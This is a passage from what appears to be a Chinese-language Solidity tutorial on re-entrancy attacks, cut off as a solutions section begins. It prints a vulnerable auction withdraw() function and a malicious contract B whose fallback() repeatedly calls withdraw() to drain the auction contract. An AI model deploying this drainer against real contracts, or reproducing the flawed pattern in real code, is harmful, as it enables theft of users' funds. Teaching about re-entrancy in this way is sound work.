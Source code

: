 ### 【2】合约C 被动退款，在 恶意合约B 中**写了** ``fallback()``和``receive()``，但 fallback() 函数中循环访问 合约C 退款函数，产生重入攻击(Re-entrancy Attack)，导致 合约C的钱 都被转走。   
示例如下：  
- 拍卖合约 C 中取回出价的函数：
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( block.timestamp > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----向调用者转账------
    uint amount = bids[msg.sender];
    if(msg.sender.call{value: amount}("")){
        bids[msg.sender] = 0;
        return true;
    }
    return false;
}
```
- 恶意合约 B ：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 引入拍卖合约
import "./SimpleAuctionV2.sol";

contract B {
    uint stack = 0;

    // 调用拍卖合约函数 bid() 参与竞拍
    function hack_bid(address addr) payable public {
        SimpleAuctionV2 sa = SimpleAuctionV2(addr);
        sa.bid{value: msg.value}(); 
    }

    // 调用拍卖合约的 withdraw() 函数取回钱
    function hack_withdraw(address addr) public {
        SimpleAuctionV2(addr).withdraw();
    }

    // 合约C调用fallback()函数，递归调用直到【1】合约C中钱不够了，【2】gas费不够了，【3】调用栈溢出
    fallback() external payable {
        stack += 2;
        // 判断合约C余额足以支持转账、gas费大于6000、栈深度小于500
        if (msg.sender.balance >= msg.value && gasleft() > 6000 && stack < 500) { 
            SimpleAuctionV2(msg.sender).withdraw(); 
        }
    }
}

```
## **-->解决方案：**  
#### - 方案1：优化 withdraw 中 转账部分  
```solidity
// 使用 withdraw 模式
```